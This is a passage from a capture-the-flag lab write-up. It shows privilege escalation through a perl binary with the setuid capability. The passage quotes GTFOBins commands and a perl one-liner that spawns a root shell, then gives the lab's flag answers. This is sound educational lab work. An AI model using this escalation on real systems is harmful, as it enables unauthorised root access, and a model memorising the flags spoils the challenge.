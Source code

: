 In the capabilities part, we are able to use perl as the setUID capability is present, put by root user.
On GTFObins, we see the following advice:

```  sh
Capabilities

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

    cp $(which perl) .
    sudo setcap cap_setuid+ep perl

    ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

With this given, we just use the command with *hatter*.

``` sh
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# 
# whoami
root
# find / -name 'user.txt'
/root/user.txt
# cat /root/user.txt
thm{"Curiouser and curiouser!"}
# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

We succesfully retrieved the flag in `/root/user.txt` and in `/home/alice/root.txt`

**Obtain the flag in user.txt**

*Answer: `thm{"Curiouser and curiouser!"}`*

**Escalate your privileges, what is the flag in root.txt?**

*Answer: `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`*
